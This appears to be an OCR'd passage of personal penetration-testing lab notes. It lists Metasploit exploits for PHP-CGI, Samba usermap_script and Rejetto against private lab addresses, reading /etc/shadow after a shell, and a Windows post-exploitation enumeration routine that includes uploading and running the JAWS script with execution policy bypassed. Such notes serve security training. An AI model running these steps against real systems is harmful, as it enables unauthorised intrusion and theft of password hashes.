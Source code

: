 	    - **PHP**
		    - [http://10.2.20.205/phpinfo.php](http://10.2.20.205/phpinfo.php)
		    - Exploit using this `exploit/multi/http/php_cgi_arg_injection`
	    - **SAMBA**
		    - `nmap -sV -p 445 10.2.20.205`
		    - `nc -nv 10.2.20.205 445`
		    - `search smb_version use auxiliary/scanner/smb/smb_version setg RHOSTS 10.2.20.205 run`
		    - `use exploit/multi/samba/usermap_script`
		    - `run`
		    - update to meterpreter
		    - `cat /etc/shadow`
- Post exploitation
	- Local Enumeration
	    - Windows
	        - `nmap -sV 10.2.16.155`
	        - `service postgresql start && msfconsole -q`
	        - Exploit rejetto
	        - Got meterpreter session
	        - `getuid`
	        - `sysinfo`
	        - `show_mount`
	        - `cat C:\\Windows\\System32\\eula.txt`
	        - `shell`
	        - `hostname`
	        - `systeminfo`
	        - `wmic qfe get Caption,Description,HotFixID,InstalledOn`
	        - `getuid - Admin already`
	        - `getprivs`
	        - current logged-on users `query user`
	        - Display all accounts - `net users`
	        - `net user Administrator`
	        - Enumerate groups `net localgroup`
	        - `net localgroup Administrators`
	        - `net localgroup "Remote Desktop Users”`
	        - `ipconfig ipconfig /all`
	        - `route print` - display routing table
	        - arp table - `arp -a`
	        - Listening connections/ ports - `netstat -ano`
	        - Firewall state - `netsh firewall show state`
	        - running procesess - `ps`
	        - `pgrep explorer.exe`
	        - `migate 744`
	        - `wmic service list brief`
	        - running tasks - `tasklist /SVC`
	        - **Automation**
		        - [Jaws](https://github.com/411Hall/JAWS)
		        - Run this command in powershell `PS C:\\temp> .\\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt`
		        - Go to msfconsole session back
		        - `session 1 cd C:\\\\ mkdir Temp cd Temp upload /root/Desktop/jaws-enum.ps1 shell`
		        - `powershell.exe -ExecutionPolicy Bypass -File .\\jaws-enum.ps1 -OutputFilename Jaws-Enum.txt`
		        - `download Jaws-Enum.txt`
	        